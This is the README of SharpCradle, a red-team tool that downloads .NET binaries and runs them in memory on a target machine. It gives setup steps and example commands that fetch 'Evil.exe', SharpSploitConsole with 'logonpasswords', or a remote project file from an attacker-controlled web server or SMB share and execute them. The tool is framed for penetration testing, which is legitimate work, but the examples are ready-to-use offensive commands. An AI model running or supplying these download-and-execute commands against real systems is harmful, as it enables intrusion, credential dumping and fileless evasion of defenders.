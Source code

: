 # SharpCradle

Description
============

SharpCradle is a tool designed to help penetration testers or red teams download and execute .NET binaries into memory.

Contact at:
- Twitter: @anthemtotheego

Contributors: @bohops - Download .NET inline project file from web and execute funtionality

Quick blog:

http://blog.redxorblue.com/2018/10/sharpcradle-loading-remote-c-binaries.html

**Before submitting issues, this tool may not always be updated actively. I encourage you to borrow, add, mod, and/or make your own.  Remember, all the awesome code out there (and there is a lot) can be taken/modified to create your own custom tools.**

![Alt text](/SCradle.PNG?raw=true "SharpCradle")
![Alt text](/SCradle_2.PNG?raw=true "")

Setup - Quick and Dirty
==============================

**Note: For those of you who don't want to go through the trouble of compiling your own I uploaded an x64 and x86 binary found in the CompiledBinaries folder.  For those of you who do want to compile your own... I used Windows 10, Visual Studio 2017 - mileage may vary**

1. Download SharpCradle tool and open up SharpCradle.sln                         

2. Compile for correct architecture (x64 or x86), drop binary on target computer and have fun.

Note: architecture of SharpCradle and binary you are retrieving should be the same or it might throw errors.

Examples 
========

Web Server Download:

```SharpCradle.exe -w https://IP/Evil.exe <arguments to pass>```

```SharpCradle.exe -w https://IP/SharpSploitConsole_x64.exe logonpasswords```

File Server Download Anonymous:

```SharpCradle.exe -f \\IP\share\Evil.exe <arguments to pass>```

```SharpCradle.exe -f \\IP\share\SharpSploitConsole_x64.exe logonpasswords```

File Server Download With Creds:

```SharpCradle.exe -f -c domain username password \\IP\share\Evil.exe <arguements to pass>```

```SharpCradle.exe -f -c domain username password \\IP\share\SharpSploitConsole_x64.exe logonpasswords```

Download .NET inline project file from web:

```SharpCradle.exe -p https://192.168.1.10/EvilProject.csproj```

